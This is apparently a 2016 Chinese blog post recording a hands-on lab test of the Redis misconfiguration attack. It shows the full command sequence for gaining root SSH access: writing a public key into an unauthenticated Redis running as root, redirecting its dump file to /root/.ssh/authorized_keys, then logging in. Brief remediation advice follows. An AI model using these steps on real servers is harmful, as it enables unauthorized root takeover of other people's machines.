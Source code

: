 ```yaml
---
id: 443
title: 利用Redis配置不当的漏洞对linux服务器root提权体验
date: '2016-07-19T17:37:17+08:00'
author: huangdc
layout: post
guid: 'http://www.huangdc.com/?p=443'
permalink: /443
duoshuo_thread_id:
    - '6308967883489673985'
views:
    - '20375'
bigfa_ding:
    - '17'
categories:
    - Linux
tags:
    - linux
    - redis
    - 漏洞
---
```


某一天，公司安全组发邮件普及安全知识，提到Redis配置不当致使root被提权漏洞的问题！哎呀，自己一直未关注过linux安全方面的知识，就动手体验了一次，记录一下

## 漏洞描述

借助redis内置命令，可以对现有数据进行恶意清空  
如果Redis以root身份运行，可往服务器上写入SSH公钥文件，直接登录服务器

## 漏洞原理

如果redis启动监听外网端口，且未配置安全密码访问；  
当redis以root用户身份运行时，就可以借助链接到redis，通过redis内置命令修改 dir 和 dbfilename  
从而可往服务器的任何位置写入任何内容的文件，当然/root/.ssh/authorized\_keys文件也不例外，呵呵了吧

## 体验一把提权

目标主机：192.168.203.224 （以root身份启动一个redis实例，端口为4700）  
攻击主机：192.168.203.78

1、在192.168.203.78 ，远程链接redis 192.168.203.224:4700 ，查看一下当前的key

```
[root@vm200-78 ~]# redis-cli -h 192.168.203.224 -p 4700
redis 192.168.203.224:4700> keys *
1) "huangdc"
redis 192.168.203.224:4700> get huangdc
"1"
```

2、在192.168.203.78 生成公私钥文件（ssh-keygen -t rsa 生成公钥 ）

```
## 直接运行ssh-keygen -t rsa生成公钥
## 将公钥保存到另外一个文件  mypubkey.txt
[root@vm200-78 ~]# 
[root@vm200-78 ~]# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
b1:ca:19:f9:80:9c:5d:db:5d:f8:67:ec:94:b8:e4:c8 root@vm200-78.boyaa.com
[root@vm200-78 ~]# ll /root/.ssh/
总计 12
-rw------- 1 root root 1675 07-19 16:56 id_rsa
-rw-r--r-- 1 root root  405 07-19 16:56 id_rsa.pub
-rw-r--r-- 1 root root 1974 2015-11-18 known_hosts
[root@vm200-78 ~]# (echo -e "\n";cat /root/.ssh/id_rsa.pub;echo -e "\n") > mypubkey.txt
[root@vm200-78 ~]# cat mypubkey.txt 


ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAvZGEjiEH+TlsvM+wctETOyF9A6QobMteoR47LYk6KFKwcHBvSdJs5UEp62Z9pZWpqaew8d8SV/d9FzhOrNilMXndpjZBDwQmq11MWforei4VPGF8UVUO4o4oleUkg3H7wGrXBQHEOLZnMCQSdql+Xe8eHUqXAMYoU+a6QPz1dEqF4/6r0n+f2QUMt+gTadg8ZiHTvyx5HI9ZCTuGJ8ulNG/qwd1KsOaJJgdFNq5OYg4izV1U6JnGju9yOFWNYtWrGUAAbH0Pv9ylmRq+4R2xdj5iEbXma2VTZsMl6XPx12ZXJCcdS4u8NJExTgCjMRvB01UyFva3pETdgNDOF5fM6Q== root@vm200-78.boyaa.com


[root@vm200-78 ~]#
```

3、在192.168.203.78 将公钥以key值的形式写入redis

```
[root@vm200-78 ~]# 
[root@vm200-78 ~]# cat mypubkey.txt |redis-cli -h 192.168.203.224 -p 4700 -x set mypubkey
OK
[root@vm200-78 ~]# redis-cli -h 192.168.203.224 -p 4700
redis 192.168.203.224:4700> keys *
1) "mypubkey"
2) "huangdc"
redis 192.168.203.224:4700> get mypubkey
"\n\nssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAvZGEjiEH+TlsvM+wctETOyF9A6QobMteoR47LYk6KFKwcHBvSdJs5UEp62Z9pZWpqaew8d8SV/d9FzhOrNilMXndpjZBDwQmq11MWforei4VPGF8UVUO4o4oleUkg3H7wGrXBQHEOLZnMCQSdql+Xe8eHUqXAMYoU+a6QPz1dEqF4/6r0n+f2QUMt+gTadg8ZiHTvyx5HI9ZCTuGJ8ulNG/qwd1KsOaJJgdFNq5OYg4izV1U6JnGju9yOFWNYtWrGUAAbH0Pv9ylmRq+4R2xdj5iEbXma2VTZsMl6XPx12ZXJCcdS4u8NJExTgCjMRvB01UyFva3pETdgNDOF5fM6Q== root@vm200-78.boyaa.com\n\n\n"
redis 192.168.203.224:4700> 
redis 192.168.203.224:4700> config get dir
1) "dir"
2) "/data/nosql/redis_4700"
redis 192.168.203.224:4700> config set dir /root/.ssh/
OK
redis 192.168.203.224:4700> 
redis 192.168.203.224:4700> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
redis 192.168.203.224:4700> config set dbfilename "authorized_keys"
OK
redis 192.168.203.224:4700> 
redis 192.168.203.224:4700> save
OK
redis 192.168.203.224:4700> CONFIG set dir "/data/nosql/redis_4700"
OK
redis 192.168.203.224:4700> save
OK
redis 192.168.203.224:4700>

## 这样就把公钥写进目标主机的/root/.ssh下，并且名称为authorized_keys，了解ssh的都会知道，这样我们就完成了远程无密码访问了
## 记得要把 dir 的值还原回去，呵呵
```

4、远程登录

```
[root@vm200-78 ~]# 
[root@vm200-78 ~]# ssh 192.168.203.224
The authenticity of host '192.168.203.224 (192.168.203.224)' can't be established.
RSA key fingerprint is 53:47:d1:c6:ed:2e:69:32:75:1a:55:47:db:1b:70:3f.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.203.224' (RSA) to the list of known hosts.
Last login: Fri Mar 25 11:18:25 2016 from 192.168.100.130

################################################################
#      非工作时间，请注意操作，你的一切操作都记录在案          #
################################################################
#  Attention! Non-work time! Your operation will be recorded!  #
################################################################


[root@LOCAL-203-224 ~]# 
[root@LOCAL-203-224 ~]# who am i
root     pts/43       2016-07-19 17:33 (192.168.203.78)
[root@LOCAL-203-224 ~]# 
[root@LOCAL-203-224 ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP qlen 1000
    link/ether 00:50:56:bf:3b:0c brd ff:ff:ff:ff:ff:ff
    inet 192.168.203.224/24 brd 192.168.203.255 scope global eth1
    inet6 fe80::250:56ff:febf:3b0c/64 scope link 
       valid_lft forever preferred_lft forever

```

这样，就有了root 权限，想干嘛都行呀，，，

## 建议修复方案（需要重启redis才能生效）

1、设置访问密码  
在 redis.conf 中找到“requirepass”字段，在后面填上你需要的密码

2、修改redis服务运行账号  
请以较低权限账号运行redis服务，且禁用该账号的登录权限

转载请注明：[Huangdc](https://www.huangdc.com) » [利用Redis配置不当的漏洞对linux服务器root提权体验](https://www.huangdc.com/443)